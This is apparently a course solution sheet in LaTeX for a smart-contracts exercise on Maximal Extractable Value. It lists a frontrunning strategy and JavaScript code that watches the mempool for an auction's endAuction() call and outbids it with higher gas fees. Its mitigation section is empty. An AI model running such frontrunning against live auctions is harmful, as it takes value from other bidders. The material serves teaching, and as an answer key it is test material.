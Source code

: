 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 08: \\ Maximal Extractable Value -- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solved Exercise 08 - Maximal Extractable Value can be found in this \href{https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/08-Maximal-Extractable-Value/solution/solution-code?ref_type=heads}{GitLab repository}.

\section*{Solution to Task 1: NFT Auction Frontrunning}

The solution employs the following strategy:

\begin{enumerate}
\item Monitor the mempool for the \texttt{endAuction()} transaction
\item Extract the gas parameters from the pending transaction
\item Submit our bid with higher gas parameters to ensure it gets mined first
\item Wait for our bid and the \texttt{endAuction()} transaction to be mined
\item Claim the NFT
\end{enumerate}

\begin{verbatim}
// See the mempool
pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  auction,
  "endAuction"
);
const frontrunTx = {
  to: auction.target,
  data: auction.interface.encodeFunctionData("bid"),
  value: ethers.parseEther("1.5") + 1n, // Bid 1.5 ETH + 1 wei
  type: 2, // EIP-1559 transaction
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + 1000000000n, // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + 1000000000n, // +1 Gwei
  gasLimit: 500000, // Ensure enough gas is provided
};

// Send our frontrunning transaction
await player.sendTransaction(frontrunTx);
console.log("Player sent frontrunning transaction");
\end{verbatim}

\subsubsection*{Possible Mitigation}
\end{document}
